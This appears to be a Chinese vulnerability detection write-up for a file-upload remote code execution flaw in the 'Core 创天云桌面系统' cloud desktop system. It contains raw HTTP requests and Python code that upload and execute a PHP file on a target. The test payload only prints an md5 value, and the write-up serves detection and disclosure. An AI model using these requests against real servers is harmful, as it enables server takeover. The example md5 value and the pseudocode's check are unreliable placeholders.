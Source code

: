 # Core 创天云桌面系统远程代码执行漏洞（core-chuangtian-cloud-rce）

## 漏洞简介
Core 创天云桌面系统存在远程代码执行（RCE）漏洞，攻击者可通过文件上传接口上传恶意 PHP 文件，进而在服务器上执行任意代码，危害极大。

## 影响范围
- 受影响产品：Core 创天云桌面系统
- 影响版本：未加固的相关版本

## 漏洞原理
系统的 `/Upload/upload_file.php` 文件上传接口未对文件类型和内容做有效校验，攻击者可上传 PHP 脚本，随后通过 Web 路径访问并执行，实现远程代码执行。

## 利用方式与攻击流程
1. 攻击者构造 multipart/form-data POST 请求，向 `/Upload/upload_file.php?l=test` 上传恶意 PHP 文件。
2. 上传成功后，访问 `/Upload/test/{文件名}.php` 路径，触发恶意代码执行。

## 探测原理与流程
### 请求包示例
1. 上传 PHP 文件：
```http
POST /Upload/upload_file.php?l=test HTTP/1.1
Host: target.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv

------WebKitFormBoundaryfcKRltGv
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: image/avif

<?php echo md5("core-chuangtian-cloud-rce");unlink(__FILE__);?>
------WebKitFormBoundaryfcKRltGv--
```
2. 访问上传的 PHP 文件：
```http
GET /Upload/test/test.php HTTP/1.1
Host: target.com
```

### 响应与判定逻辑
- 响应体包含上传 PHP 文件输出的 md5 值（如 `b1e1b6a7e6e3b1e1b6a7e6e3b1e1b6a7`）。

### 伪代码
```python
# 步骤1：上传 PHP 文件
files = {'file': ('test.php', '<?php echo md5("core-chuangtian-cloud-rce");unlink(__FILE__);?>', 'image/avif')}
requests.post('http://target.com/Upload/upload_file.php?l=test', files=files)
# 步骤2：访问上传的 PHP 文件
resp = requests.get('http://target.com/Upload/test/test.php')
if '{{md5("core-chuangtian-cloud-rce")}}' in resp.text:
    print('存在远程代码执行漏洞')
```

### Mermaid 流程图
```mermaid
flowchart TD
    A[开始] --> B[上传恶意 PHP 文件]
    B --> C[访问上传的 PHP 文件]
    C --> D[检查响应内容]
    D --> E{是否包含 md5 校验值?}
    E -- 否 --> F[不存在漏洞]
    E -- 是 --> G[存在远程代码执行漏洞]
```

## 参考链接
- [漏洞分析与利用](https://mp.weixin.qq.com/s/wH5luLISE_G381W2ssv93g) 
